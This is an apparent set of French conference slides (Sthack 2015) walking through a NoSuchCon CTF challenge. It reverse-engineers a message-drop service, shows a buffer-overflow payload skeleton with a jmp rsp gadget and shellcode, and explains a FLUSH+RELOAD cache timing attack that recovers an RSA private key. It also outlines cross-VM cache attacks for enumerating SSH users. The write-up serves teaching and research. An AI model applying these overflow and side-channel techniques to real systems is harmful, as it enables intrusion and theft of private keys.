ATTACK THE CACHE TO GET SOME CASH
Sthack 27 mars 2015
David BERARD & Vincent FARGUES
CESTI Thales à Toulouse
Challenge NoSuchCon #2 - septembre 2014
- Conférence à Paris 19-21 Novembre
- Challenge créé par

- Objectif : Trouver email + password
Challenge en 3 étapes
- Rétro ingénierie MIPS
- Rétro ingénierie rapide et analyse statistique
- Escape Python sandbox + XXE
- Attaque sur AES-128 avec un padding oracle (vulnérabilité non souhaitée par les créateurs).
- Exfiltration de données par XXE
- Evasion de la sandbox Pickle modifiée
- Timing cache attack sur RSA en remote avec overflow
- Exploitation d'un buffer overflow
- Réalisation d'une attaque par canaux auxiliaires
Découverte de l'archive
$ tar xzvf securedrop.tar.gz
securedrop/
securedrop/client/
securedrop/client/client.py
securedrop/archive/
securedrop/archive/messages
securedrop/servers/
securedrop/servers/SecDrop
securedrop/servers/xinetd.conf/
securedrop/servers/xinetd.conf/secdrop
securedrop/servers/xinetd.conf/stpm
securedrop/servers/STPM
securedrop/lib/
securedrop/lib/libsec.soDécouverte de l'archive : message archivé
securedrop/archive/messages
$ cat archive/messages
new message:
0C849AFE0A7C11B2F083C32E7FDB0F8AC03198D84D9990B26D6443B1D185A36A235A561
BB99FE897858371311B2AD6DFE75E199667637EDEA7B9C14A158A5F6FFE15A1C14DAD80
8FDC9F846530EDD4FE3E86F4F98571CD45F11190ED531FC940D62C2C2E05F9977223580
8097763157F140FE4A57DB6AD902D9962F12BDFC1547CED3E282604255B2A5331373CAE
E557CC825DD6A03C3D2D7B106E4AD15347BCB5067BDC60376FF1CC133F2C14
9d41dbb8da10b66cdde844f62e9cc4f96c3a88730b7b8307810cf1906935123f97ac9b6
82dd401512d18775bd7bd9b8b40929f5b4a1871ba44c94038793f0aa639b9d71d72d2ac
cfcc95671c77a5c1c32bc813b048f5dcb1f08b59d6a7afb3b34462ac6abb69cb70accb2
4d78389a1777c5244b8063c542cc1f6c6db8d41d32df2e7132e21db8a1cc711c1a97c51
ba29f1d1ac8fa901a902b2a987f0764734f8b8cd2d476200e7ae62a424e2930d8b02940
9d0e5e13d4e11f4b5f5cc1263f41b500b4340b8641465bbc56c64a575f0ee215d02dea3
d75552328cf5742c
Message chiffré (2 lignes)
Découverte de l'archive : client python
securedrop/client/client.py
[...]
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.settimeout(15)
s.connect(('nsc2014.synacktiv.com', 1337))
s.send('%s\n%s\n%s\n'%(PASSWORD, wk, enc.encode('hex')))
r = ''
while '\n' not in r :
r += s.recv(1024)
try :
r = r.strip('\n').decode('hex')
print ocb_decrypt(k, r)
except :
print r
Découverte de l'archive : configuration xinetd
securedrop/servers/xinetd.conf/secdrop
securedrop/servers/xinetd.conf/stpm
- secdrop
- port : 1337
- utilisateur : secdrop
- binaire : /home/secdrop/SecDrop
- argument : /home/secdrop/messages
- stpm
- port : 2014
- utilisateur : stpm
- binaire : /home/stpm/STPM
- argument : /home/stpm/keyfile
Découverte de l'archive : Binaires x86-64
securedrop/servers/SecDrop
securedrop/servers/STPM
securedrop/lib/libsec.so
Fonctionnement basique du client
msc {
a [label="Client",textbgcolor="#CCC",textcolor="black"],
b [label="SecDrop",textbgcolor="#CCC",textcolor="black"];
a =>> a [label="gen random AES_key"];
a =>> b [label="PASSWORD"];
a =>> b [label="RSA_encrypt(AES_key,Kpub)"];
a =>> b [label="AES_encrypt(message,AES_key)"];
b =>> a [label="AES_encrypt(\"OK\",AES_key)"];
}
Rétro ingénierie SecDrop
- Écoute via xinetd sur le port 1337
- Service de réception de message
- Stockage de messages dans un fichier (
argv[1])
Rétro ingénierie SecDrop : initialisation
- fopen
argv[1] - Connect
127.0.0.1:2014 - Limitation des syscalls à
READ,WRITE,EXIT
LODWORD(v0) = seccomp_init(0LL);
v1 = v0;
if ( v0
&& seccomp_rule_add(v0, 2147418112LL, 0LL, 1LL) >= 0
&& seccomp_rule_add(v1, 2147418112LL, 0LL, 1LL) >= 0
&& seccomp_rule_add(v1, 2147418112LL, 1LL, 1LL) >= 0
&& seccomp_rule_add(v1, 2147418112LL, 1LL, 1LL) >= 0
&& seccomp_rule_add(v1, 2147418112LL, 1LL, 1LL) >= 0
&& seccomp_rule_add(v1, 2147418112LL, 1LL, 1LL) >= 0
&& seccomp_rule_add(v1, 2147418112LL, 60LL, 0LL) >= 0
&& seccomp_load(v1) >= 0 )
{
seccomp_release(v1);
result = 0LL;
}
Rétro ingénierie SecDrop : lecture du password
- Mot de passe fixe hardcodé
if ( read(0, &buf, 0x21uLL) != 33 ||
memcmp(&buf, "UBNtYTbYKWBeo12cHr33GHREdZYyOHMZ\n", 0x21uLL) )
{
write(1, "WRONG PASSWORD!\n", 0x10uLL);
SEC_exit(1LL);
}
sub_400FB0(v7);
SEC_exit(0LL);
Rétro ingénierie SecDrop
Lecture de la clef AES chiffrée par RSA et du message chiffré par AES
- Lecture caractère par caractère
- Stockage sur la stack
int __fastcall read_input(__int64 a1, __int64 a2)
{
v2 = 0LL;
while ( 1 )
{
result = SEC_fgetc(a1);
if ( result == -1 || result == '\n' )
break;
v3 = (unsigned int)v2;
v2 = (unsigned int)(v2 + 1);
*(_BYTE *)(a2 + v3) = result;
}
*(_BYTE *)(a2 + v2) = 0;
return result;
}
Rétro ingénierie SecDrop : communication avec STPM
- Clef AES chiffrée par RSA envoyée au STPM
- Avec la commande :
3\n2\n0\nKEY\n
- Avec la commande :
- Message chiffré AES transmis au STPM
- Avec la commande :
2\n2\nMESSAGE\n
- Avec la commande :
Fonctionnement global
msc {
wordwraparcs=true;
a [label="Client",textbgcolor="#CCC",textcolor="black"],
b [label="SecDrop",textbgcolor="#CCC",textcolor="black"],
c [label="STPM",textbgcolor="#CCC",textcolor="black"];
a -> a [label="AES_key=random(16)"];
a =>> b [label="PASSWORD"];
a =>> b [label="RSA_encrypt(AES_key,Kpub)"],
b =>> c [label="3-2-0-RSA_encrypted_AES_key"];
a =>> b [label="AES_encrypt(message,AES_key)"],
b =>> c [label="2-2-AES_encrypted_message"];
}
Pseudo-Code SecDrop
save_messages = open(argv[1])
socket_stpm = connect(localhost:2014)
restrict_allowed_syscalls()
passwd = read(stdin,33)
if(passwd=="UBNtYTbYKWBeo12cHr33GHREdZYyOHMZ\n"):
aes_key =read_input()
encrypted_msg=read_input()
send(socket_stpm,"3\n2\n0\n"+aes_key+"\n")
send(socket_stpm,"2\n2\n"+encrypted_msg+"\n")
save_messages.write(aes_key + "\n" + encrypted_msg)
Rétro ingénierie STPM
- Écoute via xinetd sur le port 2014 (filtré pour l'extérieur)
- Sofware Trusted Platform Module ?
- Réalise les opérations de chiffrement et de déchiffrement
- Stocke des clefs (16 emplacements pour des clefs symétriques / asymétriques)
- Préchargement des clefs depuis le fichier
argv[1]- Absent de l'archive fournie
Rétro ingénierie STPM : parsing des commandes
- Symboles présents dans le binaire :)
switch ( v2 ) {
case '4':
v3 = export_key();
goto LABEL_6;
case '3':
v3 = import_key();
goto LABEL_6;
case '2':
v3 = message_decrypt();
LABEL_6:
if ( v3 )
goto LABEL_7;
continue;
case '1':
print_keys();
[...]
Rétro ingénierie STPM : commandes disponibles
print_keys()
affiche toutes les clefs stockées-
decrypt(key_id,)
déchiffre le avec la clef key_id -
import_key(key_id,,ciphered_AES_key)
Reçoit ciphered_AES_key chiffré en RSA avec la clef key_id
Déchiffre et stocke la clef à l' spécifié -
export_key(,key)
Renvoie la clef AES à l’ spécifié chiffrée en RSA avec la clef key exit()
Fonctionnement global
msc {
wordwraparcs=true;
a [label="Client",textbgcolor="#CCC",textcolor="black"],
b [label="SecDrop",textbgcolor="#CCC",textcolor="black"],
c [label="STPM",textbgcolor="#CCC",textcolor="black"];
a -> a [label="AES_key=random(16)"];
c -> c [label="Kpriv=read(argv[1])"],
a =>> b [label="PASSWORD"];
a =>> b [label="RSA_encrypt(AES_key,Kpub)"],
b =>> c [label="3-2-0-RSA_encrypted_AES_key"];
c -> c [label="AES_key=RSA_decrypt(Kpriv)"];
c -> c [label="store(AES_key)"];
c =>> b [label=""];
a =>> b [label="AES_encrypt(message,AES_key)"],
b =>> c [label="2-2-AES_encrypted_message"];
c =>> b [label="AES_encrypt(\"OK\",AES_key)"],
b =>> a [label="AES_encrypt(\"OK\",AES_key)"];
}
Buffer Overflow dans SecDrop
- Lecture caractère par caractère sur la socket vers le client
- Stockage sur la stack
- Arrêt de la lecture si retour à la ligne → overflow
int __fastcall read_input(__int64 a1, __int64 a2)
{
v2 = 0LL;
while ( 1 )
{
result = SEC_fgetc(a1);
if ( result == -1 || result == '\n' )
break;
v3 = (unsigned int)v2;
v2 = (unsigned int)(v2 + 1);
*(_BYTE *)(a2 + v3) = result;
}
*(_BYTE *)(a2 + v2) = 0;
return result;
}
Buffer Overflow dans SecDrop
msc {
a [label="Client",textbgcolor="#CCC",textcolor="black"],
b [label="SecDrop",textbgcolor="#CCC",textcolor="black"];
a =>> b [label="PASSWORD"];
a =>> b [label="padding+ ROP Chain + Shellcode"];
...;
}
shellcode execution
Buffer Overflow dans SecDrop : shellcode
- ROP chain simple : gadget magique présent dans le code
.text:0000000000400F60 db 0B8h .text:0000000000400F61 ; ----------------------------- .text:0000000000400F61 jmp rsp .text:0000000000400F61 ; ----------------------------- .text:0000000000400F63 db 0 - Exploit :
jmp_rsp=0x00400f61 # password payload="UBNtYTbYKWBeo12cHr33GHREdZYyOHMZ\n" # overflow payload+="A"*12072 # Jump to shellcode payload+=addr(jmp_rsp) # write shellcode payload+=shellcode() payload+="\n" - Syscalls limités à
READ,WRITE,EXITpar la sandbox
Buffer Overflow dans SecDrop : exemple avec printKey
- Réutilisation des descripteurs de fichier déjà ouverts (sockets client/STPM)
msc {
wordwraparcs=true;
a [label="Client",textbgcolor="#CCC",textcolor="black"],
b [label="SecDrop",textbgcolor="#CCC",textcolor="black"],
c [label="STPM",textbgcolor="#CCC",textcolor="black"];
a =>> b [label="PASSWORD"];
a =>> b [label="padding+ ROP Chain + Shellcode"];
b =>> c [label="1 (printKey)"];
c =>> b [label="printKey results"];
b =>> a [label="printKey results"];
}
shellcode execution
Buffer Overflow dans SecDrop : exemple avec printKey
key 0: ASYMETRIC
n = 0x000000B740DF8EE7BEFFE41A337B4E56FFE903D6D62C75[...]
e = 0x00010001
q = PRIVATE :)
key 1: SYMETRIC
k = SECRET :)
key 2: EMPTY
key 3: EMPTY
key 4: EMPTY
key 5: EMPTY
key 6: EMPTY
key 7: EMPTY
key 8: EMPTY
key 9: EMPTY
key 10: EMPTY
key 11: EMPTY
key 12: EMPTY

Timing Cache attack
- Attaque par canaux auxiliaires utilisant le cache des processeurs x86
- Cible les algorithmes cryptographiques
- AES
- RSA
- FLUSH+RELOAD: a High Resolution, Low Noise, L3 Cache Side-Channel Attack source : https://eprint.iacr.org/2013/448.pdf

Flush+Reload : conditions d'exploitation
- L'attaquant et la cible doivent être sur le même processeur
- Shellcode dans SecDrop sur la même machine que STPM
- Le code du RSA doit être lisible par l'attaquant
- Opérations RSA réalisées dans la librairie partagée
- FLUSH+Reload sur une adresse régulièrement utilisée
- Récupération du nombre de cycles CPU pour une lecture
- RSA_decrypt : bigint(ciphertext) ^ d % n
- d => exposant privé
- n => modulus
- Bignum Exp_mod : square et multiply
- Test sur le bit
- Square & multiply
- Bits inversés : consommés par l'exponentiation modulaire par la fin
- Plusieurs tentatives : résultats différents
- Un résultat se démarque dans 20% des cas, c'est l'exposant privé
- KVM : Kernel-based Virtual Machine
- KSM : Kernel Samepage Merging
- Combinaison par défaut sur certaines distributions dédiées à la virtualisation
- Chargement du binaire sshd en mémoire (mmap)
- Création d'un thread de monitoring
- FLUSH+RELOAD sur l'adresse fakepw (offset dans sshd)
- En parallèle : Connexion à la VM avec libssh2
- HIT sur fakepw : utilisateur inexistant
- MISS sur fakepw : utilisateur existant
Flush+Reload : Le cache comme canal auxiliaire
Flush+Reload : Le cache comme canal auxiliaire
Flush+Reload : Le cache comme canal auxiliaire
< X cycles CPU
> X cycles CPU
Flush+Reload : Le cache comme canal auxiliaire
Flush+Reload : Algorithme
while True:
a = get_CPU_cycle()
read_memory(address)
b = get_CPU_cycle()
flush_caches(address)
if b-a < threshold:
# the memory zone was accessed by another process
else:
# the memory zone wasn't accessed
Identification des seuils
Cache HITS
< 200
< 200
Cache
MISS
> 200
MISS
> 200
RSA : Exponentiation modulaire
/* base = n, exp = d, m = int(ciphertext) */
modpow(base, exp, m) {
result = 1;
while (exp > 0) {
if (exp & 1 > 0) {
result = (result * base) % m; #MULTIPLY
}
exp >>= 1;
base = (base * base) % m; #SQUARE
}
return result;
}
Identification des fonctions Square & Multiply
Cache attack depuis l'overflow dans SecDrop
Cache attack depuis l'overflow dans SecDrop
Cache attack depuis l'overflow dans SecDrop
msc {
wordwraparcs=true;
a [label="Client",textbgcolor="#CCC",textcolor="black"],
b [label="SecDrop",textbgcolor="#CCC",textcolor="black"],
c [label="STPM",textbgcolor="#CCC",textcolor="black"];
a =>> b [label="PASSWORD"];
a =>> b [label="padding+ ROP Chain + Shellcode"];
b =>> c [label="3-2-0-RSA_encrypted_AES_key"];
c -> c [label="AES_key=RSA_decrypt(Kpriv)"];
b =>> a [label="results"];
}
shellcode execution
mesures
Résultats
TODO: Uncomment data.js
Extraction des bits de l'exposant privé
TODO: Uncomment data2.js
Square
Multipy
1
Multipy
1
Square
Multipy
1
Multipy
1
0
Square
Multipy
1
Multipy
1
Square
Multipy
1
Multipy
1
0
0
Square
Multipy
1
Multipy
1
Reconstruction de l'exposant privé
Rappel : message dans l'archive
securedrop/archive/messages
$ cat archive/messages
new message:
0C849AFE0A7C11B2F083C32E7FDB0F8AC03198D84D9990B26D6443B1D185A36A235A561
BB99FE897858371311B2AD6DFE75E199667637EDEA7B9C14A158A5F6FFE15A1C14DAD80
8FDC9F846530EDD4FE3E86F4F98571CD45F11190ED531FC940D62C2C2E05F9977223580
8097763157F140FE4A57DB6AD902D9962F12BDFC1547CED3E282604255B2A5331373CAE
E557CC825DD6A03C3D2D7B106E4AD15347BCB5067BDC60376FF1CC133F2C14
9d41dbb8da10b66cdde844f62e9cc4f96c3a88730b7b8307810cf1906935123f97ac9b6
82dd401512d18775bd7bd9b8b40929f5b4a1871ba44c94038793f0aa639b9d71d72d2ac
cfcc95671c77a5c1c32bc813b048f5dcb1f08b59d6a7afb3b34462ac6abb69cb70accb2
4d78389a1777c5244b8063c542cc1f6c6db8d41d32df2e7132e21db8a1cc711c1a97c51
ba29f1d1ac8fa901a902b2a987f0764734f8b8cd2d476200e7ae62a424e2930d8b02940
9d0e5e13d4e11f4b5f5cc1263f41b500b4340b8641465bbc56c64a575f0ee215d02dea3
d75552328cf5742c
Ligne 1 : Clef AES chiffrée RSA
Ligne 2 : Message chiffré AES
Déchiffrement de la clef AES
# Inversion des bits, conversion en entier de "d"
d = int(d_binary[::-1],2)
# Conversion en entier de la clef chiffré depuis le message chiffré
encrypted_aes_key = int(encrypted,16)
# Operation de déchiffrement RSA
key_value = pow(encrypted_aes_key, d, n)
# Key : conversion depuis un entier
key = '%0x' % (key_value)
# Suppression du padding PKCS1 v1.5
print key[-32:]
Déchiffrement du message
Simple opération AES avec la clef retrouvée
$ python2 decrypt_msg.py
Good job!
Send the secret 3fcba5e1dbb21b86c31c8ae490819ab6 to
82d6e1a04a8ca30082e81ad27dec7cb4@synacktiv.com.
Also, don't forget to send us your solution within 10 days.
Synacktiv team
In the real world...
Exemple : bruteforce des utilisateurs dans OpenSSH
Cache attack inter VM
Hyperviseur avec déduplication de mémoire
Kernel Same page Merging
Kernel Same page Merging
Kernel Same page Merging

Kernel Same page Merging
